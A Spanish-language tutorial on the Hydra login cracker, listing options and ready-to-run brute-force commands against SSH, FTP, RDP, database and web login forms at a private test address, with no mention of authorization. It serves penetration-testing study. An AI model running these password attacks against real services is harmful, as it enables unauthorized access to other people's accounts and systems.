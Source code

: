 # Introducción a Hydra

**Hydra** es una herramienta de login cracker que soporta numerosos protocolos de red. Es extremadamente rápida y versátil para ataques de fuerza bruta contra servicios de red.


# Instalación

## Kali Linux:

```bash
# Viene preinstalado
hydra -h

# Para instalar si no está disponible
sudo apt install hydra
```

## Sintaxis Básica

```bash
hydra [opciones] [target] [service]
```


# Opciones Principales

## Opciones de Usuario y Contraseña

```bash
-l usuario        # Usuario específico
-L lista_usuarios # Lista de usuarios
-p contraseña     # Contraseña específica
-P lista_passwords # Lista de contraseñas
-C combo_file     # Archivo con combinaciones usuario:contraseña
```

## Opciones de Configuración

```bash
-t tareas         # Número de tareas paralelas (default: 16)
-f                # Parar cuando encuentra la primera combinación válida
-v                # Modo verbose
-V                # Mostrar cada intento
-s puerto         # Puerto específico
```


# Servicios Soportados

## Protocolos Web

```bash
# HTTP GET
hydra -l admin -P passwords.txt 192.168.1.100 http-get

# HTTP POST
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form

# HTTPS
hydra -l admin -P passwords.txt 192.168.1.100 https-get
```

## Servicios de Red

```bash
# SSH
hydra -l root -P passwords.txt 192.168.1.100 ssh

# FTP
hydra -l admin -P passwords.txt 192.168.1.100 ftp

# Telnet
hydra -l admin -P passwords.txt 192.168.1.100 telnet

# RDP
hydra -l administrator -P passwords.txt 192.168.1.100 rdp
```

## Servicios de Base de Datos

```bash
# MySQL
hydra -l root -P passwords.txt 192.168.1.100 mysql

# PostgreSQL
hydra -l postgres -P passwords.txt 192.168.1.100 postgres

# Microsoft SQL Server
hydra -l sa -P passwords.txt 192.168.1.100 mssql
```


# Ejemplos Prácticos

## Ataque SSH

```bash
# Ataque básico SSH
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.100 ssh

# Con múltiples usuarios
hydra -L usuarios.txt -P passwords.txt 192.168.1.100 ssh

# Con parámetros optimizados
hydra -L usuarios.txt -P passwords.txt -t 4 -f 192.168.1.100 ssh
```

## Ataque HTTP POST

```bash
# Formulario de login web
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed"

# Con cookies específicas
hydra -l admin -P passwords.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Login failed:H=Cookie: PHPSESSID=abcd1234"
```

## Ataque FTP

```bash
# FTP básico
hydra -l anonymous -P passwords.txt 192.168.1.100 ftp

# Con puerto específico
hydra -l admin -P passwords.txt -s 2121 192.168.1.100 ftp
```


# Optimización y Configuración

## Ajuste de Rendimiento

```bash
# Aumentar tareas paralelas
hydra -t 64 -l admin -P passwords.txt 192.168.1.100 ssh

# Configurar timeout
hydra -w 30 -l admin -P passwords.txt 192.168.1.100 ssh
```

## Manejo de Errores

```bash
# Restaurar sesión interrumpida
hydra -R

# Guardar estado
hydra -o resultado.txt -l admin -P passwords.txt 192.168.1.100 ssh
```